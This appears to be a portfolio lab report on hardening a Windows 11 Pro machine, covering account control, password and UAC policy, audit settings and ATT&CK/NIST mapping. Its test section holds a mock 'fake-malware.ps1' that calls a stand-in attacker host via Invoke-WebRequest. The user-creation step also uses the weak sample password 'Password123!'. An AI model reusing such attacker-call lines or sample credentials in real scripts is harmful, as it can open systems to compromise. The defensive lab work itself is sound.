



# Hardening Report — Windows 11 Endpoint

This report documents the technical steps taken to harden a default Windows 11 Pro system in a virtual lab. Actions were selected to improve local account control, enforce least privilege, implement basic password policy hygiene, and simulate real-world defense-in-depth principles. Each step includes rationale, implementation, and verification details.

---

## Before vs. After Summary

| Category              | Before                         | After                          |
|-----------------------|--------------------------------|--------------------------------|
| Guest Account         | Enabled                        | Disabled                       |
| Admin Account Name    | `Administrator`                | `svc_sysmgr`                   |
| Daily User Privilege  | Admin                          | Standard (non-admin)           |
| Password Complexity   | Disabled                       | Enabled                        |
| Password Min Length   | 8                              | 12                             |
| UAC Settings          | “Never Notify”                 | “Always Notify”                |
| Audit Policy          | Not configured                 | Enabled for logon, privilege use, object access |
| PowerShell Execution  | Unrestricted as admin          | Blocked or UAC-protected       |

---

## Account Control

### Renamed Default Administrator Account
- **Why:** Obfuscates a high-value target account frequently exploited by attackers
- **Command:**
  ```powershell
  Rename-LocalUser -Name "Administrator" -NewName "svc_sysmgr"
  ```
- **Verification:**  
  ```powershell
  net user
  ```  
   

---

### Disabled Guest Account
- **Why:** Prevents unauthenticated logons via built-in low-privilege account
- **Command:**
  ```powershell
  Disable-LocalUser -Name "Guest"
  ```
- **Verification:**
  ```powershell
  net user Guest
  ```  
  Look for `Account active: No`  

 

---

### Created Standard User Account
- **Why:** Enforces least privilege for daily tasks
- **Commands:**
  ```powershell
  net user TestUser Password123! /add
  net localgroup Users TestUser /add
  net localgroup Administrators TestUser /delete
  ```
- **Verification:** Group membership before/after  

 
---

## Password Policy

### Enforced Strong Password Requirements
- **Min length:** `12`
- **Complexity:** Enabled (uppercase, lowercase, number, symbol)
- **Password history:** 12 remembered
- **Min age:** 1 day
- **Max age:** left at default (42 days)
- **How:**  
  `gpedit.msc → Computer Configuration → Windows Settings → Security Settings → Account Policies → Password Policy`  



---

### Enabled Password Length Auditing

- **What:** Set `Minimum password length audit` to `16`

- **Why:**  
  This setting allows the system to **log when users create or change passwords shorter than 16 characters**, without enforcing that as a requirement. It’s useful for **gathering insight into password behavior** before implementing stricter policies.

  By auditing rather than enforcing, administrators can:
  - Measure compliance risk before raising the minimum
  - Avoid user disruption from sudden policy shifts
  - Phase in stronger password requirements with supporting data

  In this lab, the enforced minimum is 12 characters, but auditing at 16 simulates how an organization might evaluate readiness for a more secure baseline.


---

### Disabled Insecure Options
- **Reversible encryption:** Disabled  
- **Relax minimum length enforcement:** Disabled  

---

## User Account Control (UAC)

### Raised UAC Settings
- **Change:** “Never notify” → “Always notify”
- **Why:** Ensures elevation prompts appear for all privileged actions
- **How:**  
  `Control Panel → User Accounts → Change User Account Control settings`
  
  

---

## Audit Policy Configuration

### Enabled Local Security Audit Policies

Audit settings were applied to monitor key system and account-level activities on a standalone Windows 11 Pro machine. These policies support incident detection, troubleshooting, and accountability — particularly around user authentication, privilege use, and system changes.

The following audit categories were enabled:

| Policy               | Setting           | Purpose |
|----------------------|-------------------|---------|
| **Account logon events** | Success, Failure | Tracks authentication attempts using local or cached credentials (e.g., RDP, remote access). |
| **Account management**   | Success           | Captures user and group account creation, deletion, renaming, and password resets. |
| **Logon events**         | Success, Failure | Monitors interactive, network, and remote desktop logons. |
| **Policy change**        | Success           | Logs changes to audit policies, trust settings, or user rights assignments. |
| **Privilege use**        | Failure           | Detects attempts to use sensitive privileges without authorization. |
| **Process tracking**     | Success           | Records process creation and termination events — useful for tracing script or payload execution. |
| **System events**        | Success           | Logs system startups, shutdowns, crashes, and security log tampering. |

### Notes

Audit events were selected to balance signal-to-noise and reflect real-world audit baselines aligned with CIS and NIST guidance. This configuration provides foundational visibility for a Tier 1 or Tier 2 support environment, without overwhelming log volume.

Audit categories specific to domain infrastructure or high-noise object tracking (such as Directory Service Access and Object Access) were intentionally excluded, as they are not relevant to this standalone lab and would add unnecessary complexity without benefit.


--- 
## Simulated Payload Test (Before vs. After)

### Purpose
To evaluate how user privilege separation and UAC enforcement affect the execution of a potentially malicious PowerShell script — simulating an initial access attempt commonly observed in real-world attacks.

### Method
A harmless PowerShell script was created to mimic suspicious behavior — including a staged outbound HTTP request:

```powershell
# fake-malware.ps1
Write-Output "Connecting to attacker..."
Start-Sleep -Seconds 2
Invoke-WebRequest http://malicious.example.com -UseBasicParsing
Write-Output "Payload delivered."
```

The domain was intentionally unreachable to simulate a network failure and keep the test safe while demonstrating behavior.

---

### Before Hardening

- Executed under the built-in **administrator account**
- PowerShell **execution policy was bypassed**
- Script ran without restrictions or UAC prompt
- Outbound web request was attempted (DNS resolution failed, as expected)
- Ran with **full administrative privileges**, which in a real-world scenario would allow system compromise


---

### After Hardening

- Executed under a **standard (non-admin) user account**
- PowerShell execution policy was still bypassed, but UAC **did not trigger**, since elevation was not requested
- The script ran and failed at the same network call, but this time:
  - It was **confined to a restricted user context**
  - **Could not modify system settings**, install software, or affect other users
- Demonstrated **least privilege containment** even when execution wasn’t explicitly blocked


---

### Key Difference

While both script executions produced similar output, the **after-hardening test limited the potential damage** by enforcing least privilege. In a real-world attack, the same script might install malware or alter system settings — but with these controls in place, its impact is sharply reduced.

---

## Lessons Learned

- **Least privilege is the first line of containment.** Even though the payload executed, the fact that it ran under a non-admin account prevented it from making system-level changes — a real-world win in endpoint security.

- **UAC and account separation work best in tandem.** The lack of a UAC prompt under a standard user account reinforced that elevation boundaries were respected and that no silent privilege escalation occurred.

- **Not all threats are loud.** The script didn't cause visible damage, but its behavior still demonstrated tactics used in early-stage attacks — highlighting the value of controlling even “minor” execution pathways.

- **Documentation turns small wins into big signals.** While this test didn’t result in blocked execution, the act of tracing, isolating, and interpreting system response proved the machine was hardened against real risks.

- **Successful hardening often feels uneventful.** The best security controls are invisible when working correctly — they don’t block productivity, but quietly prevent escalation and system compromise behind the scenes.

---

### 🗂️ ATT&CK Mapping

- `T1059` – Command and Scripting Interpreter  
- `T1204` – User Execution


---

## Framework Alignment

This hardening configuration aligns with:
- **CIS Microsoft Windows 11 Benchmark – Level 1**
- **NIST 800-53 Rev 5** control families:
  - `AC-2` (Account Management)  
  - `AC-6` (Least Privilege)  
  - `AU-2` (Audit Events)  
  - `IA-5` (Authenticator Management)

---

## Conclusion

This lab simulates common endpoint hardening tasks in a Windows 11 Pro environment, executed without domain infrastructure. Though foundational, these controls form the baseline for defense-in-depth strategies and reflect real-world configurations used in help desk, desktop support, and SOC environments.

This project demonstrates practical experience with:
- PowerShell administration
- Group Policy configuration
- Privilege management
- UAC tuning
- Scripted security testing
- Technical documentation
